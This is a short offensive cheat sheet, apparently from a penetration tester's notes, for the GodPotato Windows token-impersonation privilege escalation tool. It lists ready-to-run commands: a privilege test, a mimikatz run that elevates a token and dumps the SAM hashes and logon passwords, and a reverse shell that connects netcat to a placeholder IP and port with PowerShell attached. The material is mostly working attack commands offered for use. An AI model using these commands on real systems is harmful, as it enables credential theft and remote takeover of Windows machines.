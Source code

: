 # GodPotato

% SeAssignPrimaryToken, SeImpersonate, token
#plateform/windows #target/local #cat/PRIVESC/TOKEN


## test 
https://github.com/BeichenDream/GodPotato
```cmd
.\GodPotato.exe -cmd "cmd /c whoami"
```


## mimikatz 
https://github.com/BeichenDream/GodPotato
```cmd
.\GodPotato.exe -cmd  'cmd /c c:\temp\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "sekurlsa::logonpasswords /all" "exit"'
```


## revshell 
https://github.com/BeichenDream/GodPotato
```cmd
.\GodPotato.exe -cmd  "<nc_exe_path> <ip> <port> -e powershell"
```